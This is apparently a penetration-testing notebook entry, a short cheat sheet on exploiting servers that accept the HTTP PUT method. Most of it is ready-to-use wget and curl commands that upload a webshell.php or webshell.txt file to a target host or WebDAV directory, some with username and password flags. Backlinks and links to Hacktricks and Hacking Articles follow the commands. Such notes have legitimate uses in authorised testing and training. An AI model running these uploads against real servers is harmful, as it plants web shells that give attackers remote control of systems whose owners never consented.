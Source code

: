 # Manual

```
$ wget --method=PUT --post-file=file.txt http[s]://<IP>
```

```
$ curl -T 'webshell.txt' http[s]://<IP>

$ curl -T webshell.php http://<IP>/webdav/webshell.php -u <username>:<password> -vvv
```

```
$ curl -v -X PUT 'http://<IP>/webshell.php' -d @webshell.php
```

```
$ curl -v -X PUT 'http://<IP>/webshell.php' --data-binary @webshell.php 
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Enumeration/Cross Platform/HTTP/03 - Detecting HTTP Methods/Manual|Active Fingerprinting: HTTP Methods]]

- [[02 - PUT Upload|Vulnerability Assessment: PUT Upload]]

### Hacktricks

- [Hacktricks: PUT Method WebDAV](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/put-method-webdav.html)

### Hacking Articles

- [Hacking Articles: Multiple Ways to Exploiting PUT Method](https://www.hackingarticles.in/multiple-ways-to-exploiting-put-method/)